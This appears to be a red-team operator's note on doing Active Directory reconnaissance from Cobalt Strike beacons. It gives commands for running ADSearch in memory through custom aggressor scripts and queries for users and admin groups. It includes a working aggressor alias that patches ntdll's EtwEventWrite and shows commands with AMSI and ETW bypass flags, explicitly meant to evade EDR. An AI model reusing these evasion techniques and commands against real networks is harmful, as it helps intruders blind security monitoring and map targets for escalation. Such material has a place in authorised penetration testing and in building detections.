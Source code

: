 
Domain recon would generally be performed with `PowerView` by invoking the fork-and-run method in-house on Cobalt Strike. While this is generally one of the easiest routes, avoiding PowerShell usage is advised in environments with EDR due to the amount of detectable signatures.

This can be circumvented by using the `inlineExecute-Assembly` custom aggressor script, or the `execute-assembly-patched` custom aggressor script that can be loaded into Cobalt Strike. Note that these scripts will need to be loaded into the script manager prior to use.

Note that we'll need to ensure that we have

# ADSearch

```
beacon> help inlineExecute-Assembly
Synopsis: inlineExecute-Assembly --dotnetassembly /path/to/Assembly.exe --assemblyargs My Args To Pass --amsi --etw

beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --assemblyargs help --amsi --etw
```

```execute-assembly-patched.cna
# $1 - the id for the beacon
# $2 - the local path to the .NET executable assembly
# $3 - parameters to pass to the assembly
# $4 - [optional] PATCHES

alias execute-assembly-patched {
	bexecute_assembly($1, $2, $3, "PATCHES: ntdll.dll,EtwEventWrite,0,C300");
}
```

```
beacon> help execute-assembly-patched

beacon> execute-assembly-patched C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe
```

Note that using ADSearch will generally be the preferred method for domain reconnaissance, as PowerShell execution is not required.

A few examples of execution are as follows:

```
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --amsi --etw --appdomain SharedDomain --pipe dotnet-diagnostic-1337 --assemblyargs --search "objectCategory=user"
```

```
beacon> execute-assembly-patched C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=*Admins))
```